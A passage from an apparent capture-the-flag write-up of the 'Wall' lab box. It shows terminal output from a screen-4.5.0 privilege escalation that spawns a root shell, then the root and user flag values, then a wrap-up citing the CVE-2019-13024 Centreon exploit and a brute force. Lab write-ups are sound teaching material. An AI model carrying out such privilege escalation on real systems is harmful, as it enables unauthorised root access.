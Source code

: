     /bin/screen-4.5.0 -ls
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    No Sockets found in /tmp/screens/S-www-data.

    www-data@Wall:/etc$ /tmp/ioio/rootshell
    /tmp/ioio/rootshell
    id
    uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)

We got a root shell, we get the root flag and then the user flag.

    :::text
    cat /root/root.txt
    1fdbcf8c33eaa2599afdc52e1b4d5db7
    ls /hom/e
    ls: cannot access '/hom/e': No such file or directory
    ls /hom/e
    ls: cannot access '/hom/e': No such file or directory
    ls /home/
    shelby
    sysmonitor
    ls /home/shelby/
    html.zip
    user.txt
    cat /home/shelby/user.txt
    fe6194544f452f62dc905b12f8da8406

# Wrapping up

This box was a pain. This is the first box where a bruteforce is needed. This
lead to high instability of the box on public servers. The blocked characters on
the centreon payload complicate a lot the use of the CVE-2019-13024 exploit.

The root part is quit easy in comparison and interesting to use.

*Edit: The more I think about this box the more I find it realistic. In fact,
web applications should have some protection agains brute force attacks and
have some WAF blocking characters (at least a mod security).*
content/2020.01_craft.md:meta:security
